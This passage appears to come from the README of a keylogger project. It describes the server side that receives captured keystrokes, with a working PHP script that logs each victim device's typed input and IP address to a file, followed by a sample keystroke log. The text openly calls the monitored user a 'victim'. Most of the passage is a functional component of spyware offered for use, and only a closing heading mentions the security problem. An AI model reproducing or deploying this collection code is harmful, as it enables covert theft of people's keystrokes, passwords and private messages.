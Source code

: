 ## Serverside
Of course, you may use whatever language you want and whatever technique you want.

But, whatever you do, you will receive the four parameters described above, plus the IP address of the user (which gives you a lot of info, but is not usable for identification and that's where `serial` comes into place).

Here is the example of a simple PHP script to log user activity.

Notice how you also get other data, like the IP address of the victim.

```php
<?php
	$content = $_POST["content"];	// The actual content to be logged.
	$serial = $_POST["serial"];	// The user identifier.
	$ip = $_SERVER["HTTP_X_FORWARDED_FOR"];	// The user's IP address.
	// If needed:
	// $user = $_POST["user"];	// The user's username.
	// $index = $_POST["index"];	// Index of the request in current logging session.
	// $random = $_POST["random"];	// UUID: It is unique for logging session.

	file_put_contents("loggedKeys/keylogger-$serial.log", $content, FILE_APPEND);
?>

```

This will create, in the `loggedKeys` folder, a file for each device running the keylogger (not for each session, but for the individual device).

Here is an example of such a log file:

```
27/04/2017 12:57:46	RightShift
27/04/2017 12:57:46	T
27/04/2017 12:57:46	RightShift
27/04/2017 12:57:47	H
27/04/2017 12:57:47	E
27/04/2017 12:57:47	Space
27/04/2017 12:57:48	Q
27/04/2017 12:57:48	U
27/04/2017 12:57:48	I
27/04/2017 12:57:49	C
27/04/2017 12:57:49	K
27/04/2017 12:57:50	Space
27/04/2017 12:57:51	F
27/04/2017 12:57:51	O
27/04/2017 12:57:52	X
27/04/2017 12:57:52	Space
```

# The security problem
Of course, it's no secret and no joke that this is a big security problem.
